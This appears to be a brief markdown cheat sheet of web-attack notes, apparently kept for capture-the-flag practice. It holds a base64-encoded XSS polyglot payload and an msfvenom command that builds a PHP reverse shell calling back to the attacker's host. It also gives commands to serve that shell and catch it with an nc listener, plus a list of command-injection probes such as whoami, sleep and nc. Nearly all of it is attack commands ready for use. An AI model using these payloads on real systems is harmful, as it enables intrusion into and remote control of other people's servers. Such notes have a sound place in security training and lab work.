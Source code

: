# XSS
### XSS Hunter
`
https://xsshunter.com/
`
### XSS Polyglot (decode to get actual payload)
`
amFWYXNDcmlwdDovKi0vKmAvKlxgLyonLyoiLyoqLygvKiAqL29uZXJyb3I9YWxlcnQoJ1RITScpICkvLyUwRCUwQSUwZCUwYS8vPC9zdFlsZS88L3RpdExlLzwvdGVYdGFyRWEvPC9zY1JpcHQvLS0hPlx4M2NzVmcvPHNWZy9vTmxvQWQ9YWxlcnQoJ1RITScpLy8+XHgzZQ==
`

# RFI
### Shell generation
`msfvenom -p php/reverse_php lport=4444 lhost=<your ip > /path/to/shell`

### Start listen on port
`cd /path/to/shell`

`sudo python3 -m http.server`

`nc -lvp 4444`                 


# Command Injection
Use one of the following commands to test command injection. Or you can use `Burp Suite Intruder` with this [payload](https://github.com/payloadbox/command-injection-payload-list).
### Blind
`ping`

`>` forcing some output && `cat`

`curl` great way

### Verbose
#### Linux
`whoami` || `ls` || `ping` || `sleep` ||  `nc`

#### Windows
`whoami` || `dir` || `ping` || `timeout`
